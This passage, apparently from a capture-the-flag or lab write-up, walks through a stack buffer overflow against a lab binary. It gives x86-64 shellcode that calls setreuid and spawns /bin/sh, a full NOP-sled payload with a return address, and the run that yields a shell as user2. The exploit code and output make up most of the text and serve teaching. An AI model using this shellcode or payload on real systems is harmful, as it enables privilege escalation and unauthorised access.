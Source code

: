 *Side note: It would also work if you don't specify the UID 1002 .  It would automatically grab the effective UID with geteuid() and set it as your Real UID. But I keep it that way to make things clearer.*

You get you the following shellcode

```shell
\x31\xff\x66\xbf\xea\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05
```

We just have to paste it in front of our working shell code from section 0x2. The result it:

```shell
\x31\xff\x66\xbf\xea\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05
```

It is now longer,  54 bytes in total, so we have to reduce the number of NOPs to keep the offset at 152.

Our final payload looks like this  :

```bash
$(python -c "print '\x90'*86+'\x31\xff\x66\xbf\xea\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + 'A'*12 + '\x98\xe2\xff\xff\xff\x7f'")
```

Run it

```bash 
$ ./buffer-overflow $(python -c "print '\x90'*86+'\x31\xff\x66\xbf\xea\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + 'A'*12 + '\x98\xe2\xff\xff\xff\x7f'")

Here's a program that echo's out your input
��������������������������������������������������������������������������������������1�f��jqXH��j;XH1�I�//bin/shI�APH��RWH��j<XH1�AAAAAAAAAAAA�����

sh-4.2$ whoami
user2
```

You're user2, `cat secret.txt` and enjoy. 

Task 9 works exactly the same way with a different offset.

 Good luck ! -l1ge.